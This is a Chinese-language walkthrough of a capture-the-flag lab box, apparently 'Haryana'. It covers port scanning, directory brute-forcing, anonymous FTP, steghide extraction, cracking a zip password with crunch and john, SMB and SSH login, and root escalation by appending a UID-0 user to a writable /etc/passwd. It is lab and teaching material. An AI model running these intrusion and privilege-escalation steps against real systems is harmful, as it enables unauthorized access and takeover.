[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.193 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```



得到端口号21,22,80,139,445

分别进行TCP详细扫描，漏洞扫描和UDP扫描

## TCP详细扫描



- 21端口可以匿名登陆，且存在压缩包ftp.zip
- 139端口和445端口结合，利用samba协议

## 漏洞扫描



无信息

## UDP扫描



无有效信息

# 端口分析

- 先对80端口进行目录爆破

```
gobuster dir -u "http://192.168.174.193" -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt -x php,zip,txt
```



```
dirb http://192.168.174.193 /usr/share/wordlists/dirb/big.txt
```



- 发现两个工具的扫描结果有一点不同，dirb多扫出一个/H/A/R目录



访问发现我们没有权限（403），前面的几个目录也是，先搁置一下

在默认目录还发现一张图片，下载到本地进行分析

```
steghide info Haryana-1-1.jpg
```



发现存在一个file.txt，尝试提取

```
steghide --extract -sf Haryana-1-1.jpg
```



发现也需要密码

- 21端口

```
ftp 192.168.174.193
```

用户名输入anonymous，无密码



将ftp.zip下载到本地

直接解压缩发现需要密码

```
zip2john ftp.zip > ftp.hash
john --wordlist=/usr/share/wordlists/rockyou.txt ftp.hash
```

发现破解不出来

```
fcrackzip -D -p /usr/share/wordlists/rockyou.txt ftp.zip -u
```

也没有结果回显（-D是词典模式，-p指定密码词典，-u不误报）

- 139，445端口分析

```
enum4linux -a 192.168.174.193
```



发现/sambashare共享目录，但是Mapping: DENIED，意思是直接拒绝连接，原因是无权限、需要账号密码、共享禁止匿名访问。



还发现了两个用户



直接连接果然报错

# 正确思路

以上是我的正常思路，拿到shell的过程参考了别人的wp



沿着这些单个字母目录一直爆破，最终会得到一个/H/A/R/Y/A/N/A/目录

访问发现



回显了不一样的信息，查看源代码



- 尝试用hurrry提取，这应该一个密码，上面的那些加密steghide用过--extract参数，优先考虑他

- 得到file.txt



得到密码的前四位，后两位需要我们自己写密码，使用工具crunch

| 符号 | 代表字符集                 |
| ---- | -------------------------- |
| `%`  | 数字 0~9                   |
| `@`  | 小写字母 a~z               |
| `,`  | 大写字母 A~Z               |
| `^`  | 特殊符号（`!@#$%^&*()`等） |

```
crunch 6 6 -t 5AHU%% > pass.txt
crunch 6 6 -t 5AHU^% >> pass.txt(以此类推)
```

再次尝试破解ftp.zip

```
john ftp.hash --wordlist=pass.txt
```

得到密码5AHU#5，破解ftp.zip



拿到一组账号密码，分别尝试登录ssh和smbclient连接

```
smbclient //192.168.174.193/sambashare -U sahu
```



成功登录，发现有一个ssh.txt,下载到本地并查看



进行ssh连接

# 提权

```
find / -writable -type f 2>/dev/null | grep -v sys | grep -v proc
```



发现我们对/etc/passwd有写入权限

```
openssl passwd -6 '111'
```

按照这个格式写入

```
用户名:密码标记:UID:GID:注释信息:家目录:登录shell
```

```
gong:$6$G6TN6ZY2kqMBr4aS$hWam9LmyxwyYlub4xrYnmzSUOyq2JxFrPkpfIIlg8vbTsvI9X88sU30fmk6YwmwRmUhJmJMfakwZQEjGMNzPg.:0:0:root:/root:/bin/bash
```



成功提权